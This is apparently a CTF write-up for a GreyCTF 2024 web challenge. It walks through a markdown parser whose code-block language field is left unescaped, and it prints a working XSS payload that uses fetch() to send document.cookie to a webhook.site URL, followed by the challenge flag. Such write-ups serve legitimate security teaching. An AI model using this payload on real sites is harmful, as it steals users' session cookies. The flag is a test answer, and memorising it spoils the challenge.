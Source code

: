 # Challenge source
[Souce code](https://drive.google.com/file/d/1pdmUFvfpbyYt6umN0GCsrsLy7Zo137GP/view?usp=drive_link)
# Difficulty
Medium

# Author
ocean

# Approach
- The web challenge is a webapp that allows us to parse markdown document:

  ![image](https://github.com/NoSpaceAvailable/GreyCTF2024/assets/143888307/af1c9d1b-9e4d-4575-9f31-0bb7d906c525)

  ![image](https://github.com/NoSpaceAvailable/GreyCTF2024/assets/143888307/3e977db7-1d77-43ce-a2c3-009082fa5ac0)

- Looking at the source code, I see *admin.js* using puppeteer to create an admin bot to receive our markdown. So this challenge requires XSS:
  
  ```javascript
  const puppeteer = require('puppeteer')

  const visitUrl = async (url, cookieDomain) => {
      let browser =
          await puppeteer.launch({
              headless: true,
              pipe: true,
              dumpio: true,
              ignoreHTTPSErrors: true,
              args: [
                  '--incognito',
                  '--no-sandbox',
                  '--disable-gpu',
                  '--disable-software-rasterizer',
                  '--disable-dev-shm-usage',
              ]
          })
  
      try {
          const ctx = await browser.createIncognitoBrowserContext()
          const page = await ctx.newPage()
  
          try {
              await page.setCookie({
                  name: 'flag',
                  value: process.env.FLAG || 'flag{fake_flag}',
                  domain: cookieDomain,
                  httpOnly: false,
                  samesite: 'strict'
              })
              await page.goto(url, { timeout: 6000, waitUntil: 'networkidle2' })
          } finally {
              await page.close()
              await ctx.close()
          }
      }
      finally {
          browser.close()
      }
  }
  
  module.exports = { visitUrl };
  ```

- Looking at *index.js*, we have some points to notice about:

  1. The markdown we submit via POST request will be base64 encoded:

  ```html
  <script>
            document.getElementById('markdownForm').addEventListener('submit', function (event) {
                event.preventDefault();
                const input = document.getElementById('markdownInput').value;
                const encodedInput = btoa(input);
                window.location.href = '/parse-markdown?markdown=' + encodeURIComponent(encodedInput);
            });
  </script>
  ```

  3. At endpoint */parse-markdown*, the markdown will be base64 decoded and parsed by function *parseMarkdown*:

  ```javascript
  app.get('/parse-markdown', (req, res) => {
    const base64Markdown = req.query.markdown;
    if (!base64Markdown) {
        return res.status(400).send('No markdown content provided');
    }

    try {
        const markdown = atob(base64Markdown);
        console.log(markdown)
        const html = parseMarkdown(markdown);
        console.log(html)
        res.render('view', { content: html });
    } catch (error) {
        console.error(error);
        res.status(500).send('Error parsing markdown');
    }
  });
  ```

  4. At */feedback* endpoint, we send to the admin bot the URL that link to endpoint */parse-markdown* (with our markdown notation):

  ```javascript
  app.get('/feedback', async (req, res) => {
    const url = req.query.url
    console.log('received url: ', url)

    let parsedURL
    try {
        parsedURL = new URL(url)
    }
    catch (e) {
        res.send(escape(e.message))
        return
    }

    if (parsedURL.protocol !== 'http:' && parsedURL.protocol != 'https:') {
        res.send('Please provide a URL with the http or https protocol.')
        return
    }

    if (parsedURL.hostname !== req.hostname) {
        res.send(`Please provide a URL with a hostname of: ${escape(req.hostname)}, your parsed hostname was: escape(${parsedURL.hostname})`)
        return
    }

    try {
        console.log('visiting url: ', url)
        await visitUrl(url, req.hostname)
        res.send('The admin has viewed your feedback!')
    } catch (e) {
        console.log('error visiting: ', url, ', ', e.message)
        res.send('Error, admin unable to view your feedback')
    } finally {
        console.log('done visiting url: ', url)
    }

  })
  ```

- Looking at *markdown.js*, look like it just a normal text parsing function, except a point that it has a character sanitization function. They use this to sanitize my markdown to prevent XSS attack:

```javascript
function escapeHtml(text) {
    return text
        .replace(/&/g, '&amp;')
        .replace(/</g, '&lt;')
        .replace(/>/g, '&gt;')
        .replace(/"/g, '&quot;')
        .replace(/'/g, '&#039;');
}
```

- When I take a closer look at *parseMarkdown()*, I see that the *language** variable is not sanitized. If you don't know, most of platforms that support users to write markdowns also support syntax highlighting at md notation, by allow people to specifiy the language used.

```javascript
if (line.startsWith('```')) {
  language = line.substring(3).trim();
  inCodeBlock = true;
  htmlOutput += '<pre><code class="language-' + language + '">';
}
```

  ![image](https://github.com/NoSpaceAvailable/GreyCTF2024/assets/143888307/d41a96a5-57b3-438d-b659-341d3d9ad44f)

  ![image](https://github.com/NoSpaceAvailable/GreyCTF2024/assets/143888307/05051323-8c68-4884-9d19-4f66df739c58)

- Since we can control the languague, XSS is possible.

# Attack
- First, I have to make a POC. This is my payload:
  ```
  ```"><script>fetch("https://webhook.site/your-id-here/?cookie="+document.cookie)</script><"
  \``` (please remove '\')
  ```

  ![image](https://github.com/NoSpaceAvailable/GreyCTF2024/assets/143888307/006ca291-d6de-42d3-b140-5a4184f1bf4e)

- Submit and go to webhook. The request has been captured:

  ![image](https://github.com/NoSpaceAvailable/GreyCTF2024/assets/143888307/966d9d0a-3331-42c5-aaa9-544494ea2792)

- Send it to the bot and get the flag.

- Flag: grey{m4rkd0wn_th1s_fl4g}
